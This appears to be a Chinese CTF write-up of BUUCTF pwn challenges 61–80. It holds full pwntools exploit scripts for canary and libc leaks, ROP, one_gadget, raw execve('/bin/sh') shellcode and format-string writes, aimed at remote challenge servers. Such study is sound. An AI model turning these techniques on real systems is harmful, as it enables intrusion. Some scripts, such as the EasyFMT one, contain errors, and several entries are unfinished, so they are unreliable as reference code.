






buu刷题记录（61-80题）
by Maple
61 others_babystack
canary+libc
checksec一下
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/61/pwn'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
NX保护，Canary保护，所以思路应该是泄露Canary，然后泄露libc，然后ROP
看下源码
ssize_t sub_4008B9()
{
sub_400826("--------");
sub_400826("1.store");
sub_400826("2.print");
sub_400826("3.quit");
sub_400826("--------");
return sub_4007F7(">> ");
}
int sub_400841()
{
char s[40]; // [rsp+10h] [rbp-30h] BYREF
unsigned __int64 v2; // [rsp+38h] [rbp-8h]
v2 = __readfsqword(0x28u);
memset(s, 0, 0x20uLL);
if ( (int)read(0, s, 0x20uLL) <= 0 )
exit(1);
return atoi(s);
}
__int64 __fastcall main(int a1, char **a2, char **a3)
{
int v3; // eax
char s[136]; // [rsp+10h] [rbp-90h] BYREF
unsigned __int64 v6; // [rsp+98h] [rbp-8h]
v6 = __readfsqword(0x28u);
setvbuf(stdin, 0LL, 2, 0LL);
setvbuf(stdout, 0LL, 2, 0LL);
setvbuf(stderr, 0LL, 2, 0LL);
memset(s, 0, 0x80uLL);
while ( 1 )
{
sub_4008B9();
v3 = sub_400841();
switch ( v3 )
{
case 2:
puts(s); // 回显Canary
break;
case 3:
return 0LL;
case 1:
read(0, s, 0x100uLL); // 可以溢出
break;
default:
sub_400826("invalid choice");
break;
}
sub_400826(&unk_400AE7);
}
}
是一个菜单，1对应输入，2对应输出（用puts）
所以canary截断泄露，libc用puts泄露，然后构造ROP
from pwn import *
from struct import pack
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29212)
#--------Canary-------
payload = b'a'*(0x90-0x8)
p.recvuntil('>> ')
p.sendline('1')
p.sendline(payload)
p.recvuntil('>> ')
p.sendline('2')
p.recvuntil(b'a'*(0x90-0x8)+b'\n')
canary = u64(b'\x00'+p.recv(7))
log.info("canary:"+hex(canary))
#-------leak_libc------
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x400908
pop_rdi = 0x0000000000400a93
p.sendlineafter('>> ','1')
payload1 = b'a'*0x88+p64(canary)+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(m
ain)
p.sendline(payload1)
p.sendlineafter('>> ','3')
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = puts_addr-libc.symbols['puts']
log.info("libc_base"+hex(libc_base))
#---------getshell-------
p.sendlineafter('>> ','1')
one_gadget = libc_base+0x45216
payload2 = b'b'*0x88+p64(canary)+b'b'*0x8+p64(one_gadget)
p.sendline(payload2)
p.sendlineafter('>> ','3')
p.interactive()
这边用的one_gadget,正常的ROP也是没有问题的
62 pwnable_start
shellcode
checksec一下
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/62/pwn'
Arch: i386-32-little
RELRO: No RELRO
Stack: No canary found
NX: NX disabled
PIE: No PIE (0x8048000)
Stripped: No
保护全关
ida看一下，汇编写的
public _start
_start proc near
push esp
push offset _exit
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
push 3A465443h
push 20656874h
push 20747261h
push 74732073h
push 2774654Ch
mov ecx, esp ; addr
mov dl, 14h ; len
mov bl, 1 ; fd
mov al, 4
int 80h ; LINUX - sys_write
xor ebx, ebx
mov dl, 3Ch ; '<'
mov al, 3
int 80h ; LINUX -
add esp, 14h
retn
扔给ai分析一下，read那里可以读入60字节，但是栈只有20字节，可以溢出
所以我们可以先给esp指的位置泄露出来，然后把那个地方写入shellcode并执行
from pwn import *
context.arch = 'i386'
#p = process('./pwn')
p = remote('node5.buuoj.cn',25719)
payload = b'a'*20+p32(0x08048087)# ida里可以看到，这里对应的是 mov ecx,esp
p.recvuntil(b':')
p.send(payload)
leak = u32(p.recv(4))
shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
#shellcode = asm(shellcraft.sh())
payload2 = b'a'*20+p32(leak+20)+shellcode
p.send(payload2)
p.interactive()
可以在这里找一些合适的shellcode
63 gyctf_2020_borrowstack
直接看这篇吧
64 hitcontraining_heapcreator
施工中
65 ciscn_2019_n_3
69 mrctf2020_shellcode_revenge
可见字符shellcode
可以学一下alpha3的使用
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node5.buuoj.cn'
post = 29364
p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)
shellcode = asm(shellcraft.sh())
shellcode = "Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z
0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"
p.send(shellcode)
p.interactive()
70 jarviso_level5
ret2libc_x86
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
#p = process('./pwn')
p = remote('node5.buuoj.cn',25410)
elf = ELF('./pwn')
libc = ELF('./libc-2.19.so')
#gdb.attach(p)
pop_rdi = 0x00000000004006b3
pop_rsi_r15 = 0x00000000004006b1
write_got = elf.got['write']
write_plt = elf.plt['write']
main = elf.sym['main']
p.recvuntil(b'\n')
payload = b'a'*0x80+b'b'*0x8+p64(pop_rdi)+p64(1)+p64(pop_rsi_r15)+p64(write_got)+p64(0)+
p64(write_plt)+p64(main)
p.send(payload)
write_addr = u64(p.recv(8))
libc = LibcSearcher("write",write_addr)
libc_base = write_addr-libc.dump('write')
log.info("libc_base:"+hex(libc_base))
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload2 = b'a'*0x88+p64(pop_rdi)+p64(binsh)+p64(sys)+p64(0)
p.sendline(payload2)
p.interactive()
72 网鼎杯第二轮EasyFMT
格串泄露+格串实现任意写
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node5.buuoj.cn'
post = 29555
#p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#gdb.attach(p)
offset = 6
payload = p32(elf.got['printf'])+b'%6$s'
p.sendline(payload)
printf_addr = u32(p.recvuntil(b'\xf7')[-4:])
log.info("printf_addr:"+hex(printf_addr))
libc = LibcSearcher('printf',printf_addr)
libc_base = printf_addr-libc.dump('printf')
log.info("libc_base:"+hex(libc_base))
sys = libc_base+libc.dump('system')
sys = libc_base+libc.sym['system']
payload = fmtstr_payload(offset,{printf_addr:sys})
p.sendline(payload)
p.sendline(b'/bin/sh\x00')
p.interactive()
73 mrctf2020_easy_equation
格串_x86,有些小细节
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node5.buuoj.cn'
post = 29555
p = process('./pwn')
#p = remote(host,post)
elf = ELF('./pwn')
#gdb.attach(p)
payload = b'aa%9$nAAA'+p64(0x60105c)
p.sendline(payload)
pause()
p.interactive()
经过检查
-
judge==2时，执行shell， -
没有开启ASLR和PIE
-
有格串漏洞
-
judge_addr = 0x60105c
-
输入地址的偏移为8（其实实际上是第7位的最后一位，加一位补齐就行了）
[!NOTE]

可以看到gdb这里看的很清楚，输入了4个a，第一个在
rax-7处
那么我们填充到第8位试一下
payload = b’aa%8$n’+p64(0x60105c)
不能getshell，看一下调式信息

发现judge并没有改变，为什么呢？


其实第一个被拿去补位了，它又只有五位，导致后面地址也出现了偏移，被截断了（60之后全是00）
所以payload应再补3位对齐，这个时候地址偏移应该是到了第9位
payload = b’aa%8$nAAA’+p64(0x60105c)
调试看看


地址被挤到了第9位，WIN!
[!IMPORTANT]
其实payload直接写成
b’a’*0x9+p64(0x4006D0)也行